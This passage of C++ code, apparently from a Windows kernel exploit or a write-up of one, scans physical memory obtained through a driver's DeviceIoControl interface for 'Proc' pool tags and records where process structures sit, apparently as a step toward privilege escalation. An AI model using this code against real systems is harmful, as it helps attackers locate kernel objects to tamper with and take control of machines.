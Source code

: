 ```cpp
                INT64 test_address = mapped_address + i;
                INT32 test_value = *(PINT32)(test_address + 0x4);
                if (test_value == 0x636f7250)   // "Proc"
                {
                    for (INT64 x = 0; x < (0x100); x = x + 0x10)
                    {
                        INT64 header_address = test_address + x;
                        INT32 header_value = *(PINT32)header_address;
                        if (header_value == 0x00B80003) //  "Header" ending
                        {
                            // We found a "header", this is a legit "Proc"
                            proc_count++;

                            // This is the literal physical mem addr for the
                            // "Proc" pool tag
                            INT64 temp_addr = input_buff.start_address + i;
                            
                            // This address might not be page-aligned to 0x1000
                            // so find out how far off from a multiple of 
                            // 0x1000 we are. This value is stored in our 
                            // PROC_DATA struct in the page_entry_offset
                            // member.
                            INT64 modulus = temp_addr % 0x1000;
                            proc_data.page_entry_offset.push_back(modulus);
                            
                            // This is the page-aligned address where, either
                            // small or large paged memory will hold our "Proc"
                            // chunk. We store this as our proc_address member
                            // in PROC_DATA.
                            INT64 page_address = temp_addr - modulus;
                            proc_data.proc_address.push_back(
                                page_address);
                            proc_data.header_size.push_back(x);
                        }
                    }
                }
            }
            iteration++;
        }
        else
        {
            // DeviceIoControl failed
            iteration++;
            failures++;
        }
    }
    cout << "[>] \"Proc\" chunks found\n";
    cout << "    - Failed DeviceIoControl calls: " << dec << failures << "\n";
    cout << "    - Total DeviceIoControl calls: " << dec << iteration << "\n\n";

    // Returns struct of two vectors, one holds Proc chunk address
    // one holds header-size for that Proc chunk.
    return proc_data;
```
